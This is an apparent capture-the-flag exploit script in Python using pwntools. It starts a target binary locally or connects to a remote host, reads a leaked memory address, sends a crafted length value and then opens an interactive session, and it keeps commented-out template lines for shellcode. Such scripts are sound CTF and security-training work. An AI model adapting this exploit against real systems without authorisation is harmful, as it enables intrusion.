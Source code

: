```py

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.REMOTE:
        return start_remote(argv, *a, **kw)
    else:
        return start_local(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
    b *main+278
    c
'''.format(**locals())


io = start()

io.recvuntil('Please accept this: ')
bunch = io.recvuntil('\x08')
hex_values = re.findall(r'0x[0-9a-f]+', bunch.decode(), flags=re.IGNORECASE)
print('address is:', hex_values[0])

addr = int(hex_values[0], 16)

print(p64(addr))

io.recvuntil("song's length:")

io.sendline(str(addr+1))

io.recvuntil('song:')
io.clean(1)

# io.sendline('\x00'*0x30000)
io.clean(2)


# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.interactive()
```